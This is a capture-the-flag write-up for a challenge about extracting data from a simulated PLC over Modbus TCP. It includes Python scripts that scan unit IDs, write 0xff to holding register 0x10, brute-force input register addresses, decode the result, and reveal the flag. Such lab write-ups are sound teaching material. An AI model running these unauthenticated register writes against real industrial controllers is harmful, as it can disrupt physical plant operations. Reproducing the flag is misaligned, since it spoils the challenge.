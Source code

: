 # Day 16 - Coil under the tree

## Challenge
Your are currently connected to internal plant, your objectif will be to extract informations from PLC devices.

The targeted PLC stores important informations in its input registers. But... To get this information you have to:

- Scan and find a valid slave ID;
- Edit its holding register at address 0x10 with the value 0xff;
- Read input registers to get important informations (be quick, you only have 5 seconds to read this data after editing!).

>    - Author : Nishacid
>    - 163.172.68.42:10016

## Scan for a valid unit ID
We first need to find a valid `unit ID`. Here some python code to do the scan. We use python's `pyModbusTCP`.

```python
from pyModbusTCP.client import ModbusClient

def scan():
    for unitid in range(1, 256):
        c = ModbusClient(host="163.172.68.42", port=10016, unit_id=unitid, auto_open=True)
        res = c.write_single_register(0x10, 0xff)
        c.close()
        if res != False:
            print('Found', unitid)
            break
    return unitid
```

The scan returns valid `unit ID 105`.

# Edit holding register and read input registers
We don't know the address of the input registers to read. So let's just loop on the address range, until we found non-empty contents, which happens to be `base64 encoded data`.

```python
def read(unitid):
    for addr in range(0, 65535):
        c = ModbusClient(host="163.172.68.42", port=10016, unit_id=unitid, auto_open=True)
        res = c.write_single_register(0x10, 0xff)
        if res == False:
            print('Write error')
            break
        else:
            res = c.read_input_registers(addr, 125)
            c.close()
            if res != [0]*125:
                info = ''.join([chr(i) for i in res])
                dec = b64decode(info).decode()
                if 'RM{' in dec:
                    return addr, dec
```

Here we go:

```console
$ python3 sol.py
[+] Scan unit_d...
Found 105
[+] Scan unit_id: found 105
[+] Scan input registers...
[+] Scan input registers: ons, you can validate this challenge with: ['RM{13ad1bc2e25b62}\n'] at address 16
```

## Python code
Complete solution in [sol.py](./sol.py)

## Flag
> RM{13ad1bc2e25b62}

